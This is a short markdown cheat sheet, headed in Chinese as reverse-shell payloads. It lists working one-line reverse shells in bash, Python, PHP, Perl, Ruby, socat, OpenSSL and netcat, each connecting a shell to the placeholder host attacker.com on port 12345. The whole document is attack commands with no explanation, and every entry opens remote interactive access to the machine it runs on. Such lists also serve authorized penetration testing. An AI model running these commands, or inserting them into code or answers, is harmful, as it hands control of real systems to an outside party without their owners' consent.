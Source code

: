 ## 反弹shell payload

### bash
```angular2html
export RHOST=attacker.com
export RPORT=12345
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```
### python
```angular2html
export RHOST=attacker.com
export RPORT=12345
python -c 'import sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")'
```
### php
```angular2html
export RHOST=attacker.com
export RPORT=12345
php -r '$sock=fsockopen(getenv("RHOST"),getenv("RPORT"));exec("/bin/sh -i <&3 >&3 2>&3");'
```
### perl
```angular2html
export RHOST=attacker.com
export RPORT=12345
perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### ruby
```angular2html
export RHOST=attacker.com
export RPORT=12345
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
### socat
```angular2html
RHOST=attacker.com
RPORT=12345
socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```
### openssl
```angular2html
RHOST=attacker.com
RPORT=12345
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
```
### nc
```angular2html
RHOST=attacker.com
RPORT=12345
nc -e /bin/sh $RHOST $RPORT
```
